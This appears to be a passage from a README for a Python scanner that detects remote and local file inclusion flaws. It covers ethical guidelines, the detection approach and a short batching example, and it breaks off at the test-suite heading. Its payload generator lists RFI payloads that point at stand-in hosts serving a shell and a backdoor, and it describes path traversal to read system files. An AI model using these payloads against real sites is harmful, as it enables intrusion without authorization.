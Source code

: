 ### Ethical Guidelines

- Always obtain proper authorization
- Respect robots.txt and terms of service
- Don't cause harm or disruption
- Use findings responsibly

## Technical Implementation Details

### Vulnerability Detection

The scanner detects vulnerabilities by:

1. **RFI Detection**:
   - Injecting remote URLs as parameters
   - Checking for common indicators in responses
   - Analyzing response patterns

2. **LFI Detection**:
   - Using path traversal sequences
   - Attempting to access system files
   - Looking for sensitive content

### Payload Management

```python
class PayloadGenerator:
    @staticmethod
    def get_rfi_payloads() -> List[str]:
        return [
            "http://evil.com/shell.txt?",
            "http://attacker.com/backdoor.php?",
            # ... more payloads
        ]
```

### Concurrency Control

```python
# Process in batches to avoid overwhelming servers
batch_size = self.max_concurrent
for i in range(0, len(tasks), batch_size):
    batch = tasks[i:i + batch_size]
    batch_results = await asyncio.gather(*batch, return_exceptions=True)
```

## Testing and Validation

### Test Suite

The `simple_test.py` script validates:
